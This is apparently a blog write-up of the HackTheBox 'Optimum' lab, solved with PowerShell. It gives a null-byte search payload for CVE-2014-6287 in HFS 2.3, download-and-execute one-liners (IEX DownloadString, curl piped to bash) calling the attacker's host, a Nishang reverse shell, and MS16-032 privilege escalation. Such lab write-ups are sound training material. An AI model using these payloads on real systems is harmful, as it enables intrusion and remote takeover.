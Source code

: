 ```yaml
---
title: HackTheBox - Optimum (ft. PowerShell)
thumbnail: optimum-thumb.png
category: infosec
---
```


Optimum was a fun box with which while the write-up says to use Metasploit, can be done almost entirely with PowerShell. This makes it good practice for someone like me who has never used PowerShell to learn some basic things.

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-nmap.png)

Our initial nmap scans only show one port open running HttpFileServer (HFS) version 2.3, which is vulnerable to [CVE-2014-6287](https://www.cvedetails.com/cve/CVE-2014-6287/). From the description it *"allows remote attackers to execute arbitrary programs via a %00 sequence in a search action."* Basically this just allows us to execute HFS template macros by just sending a null byte (%00) to the search item. Metasploit has the module **exploit/windows/http/rejetto_hfs_exec** to exploit this vulnerability and get a meterpreter shell, but to get a reverse shell in PowerShell, we are going to do it manually.

Using [this reference guide](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands), we can see that the command we want is `{.exec | A.}`, where `A` is the file to run. In order to get a reverse shell, our script will want to look something like: `{exec | powershell.exe ReverseShell.ps1}`, which will run the "ReverseShell.ps1" script in PowerShell. The reverse shell script we will be using comes from [Nishang](https://github.com/samratashok/nishang), which is a collection of PowerShell scripts used for pen testing. Specifically we want to use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download it and add this line to the bottom of the file to make the `Invoke-PowerShellTcp` function run when the script is executed without any arguments:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444

Our IP address is `10.10.14.3` and we want to listen on port `4444`. In order to get this script into the target machine, we will setup our own HTTP server from where the file can be downloaded from. This can be done using a basic Python module form the command line:

    # Make sure you are in the same directory as the reverse shell script
    $ python -m SimpleHTTPServer # for Python 2
    $ python -m http.server # for Python 3

This will setup a HTTP server which we can access from our IP address `(10.10.14.3)` on port `8000` (by default). Okay, so now we need a way to cause our target machine to download and run this script. On a Linux box with Bash this would be a simple:

    curl http://10.10.14.3:8000/ReverseShell.sh | bash

But on PowerShell it looks a bit different:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')

Because this isn't intended to be a tutorial on PowerShell (I intend to do that later), for now I'll just say that this command is almost identical in what it does to the curl command above. That is - it downloads the reverse shell script and then runs it.

Now is finally time to do the exploit. We will open up netcat as our listener on port 4444 with "nc -lvnp 4444" and paste this into the search URL:

    /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+System.Net.WebClient).DownloadString('http%3a//10.10.14.4%3a8000/Invoke-PowerShellTcp.ps1').}  Without URL encoding it should look like this:

    /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp.ps1').}

You can see at the start we use the null terminator (%00) then execute our command from `powershell.exe` located in `C:\Windows\SysNative\WindowsPowershell\v1.0\` which is the 64bit version of PowerShell.

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-ncat.png)

We can now get `user.txt` from the current directory.

Normally to get root with Metasploit you could use **local\_exploit\_suggester**. But we will use [Sherlock](https://github.com/rasta-mouse/Sherlock), which is a script to find missing software patches for privesc. Download it and add this line to the bottom of the script:

    Find-AllVulns

Now we will invoke it from our shell with:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Sherlock.ps1')

This will go through every vulnerability, but the one we are interested in is this (MS16-032):

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-sherlock.png)

`MS16-032` is a vulnerability could allow elevation of privilege if the Windows Secondary Logon Service fails to properly manage request handles in memory.

In order to exploit this vulnerability we will use [this script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) form the Empire exploitation framework for PowerShell. As usual add this line at the bottom to run the function when it is downloaded.

    Invoke-MS16032 -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp-MS16032.ps1')"

As you can see we are creating another reverse shell, but because of the `MS16-032` exploit, we will run it as root. Also note that you can't use the same port that your current shell is using, so you will have to create another script and netcat instance with a different port. I will be using port `4448`.

Now we run the command from our shell to get the script:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')

![image-alternative](https://cdn.halcyonnouveau.xyz/blog/img/optimum-root.png)

And now we are root. The flag is in `C:\Users\Administrator\Desktop\root.txt`.
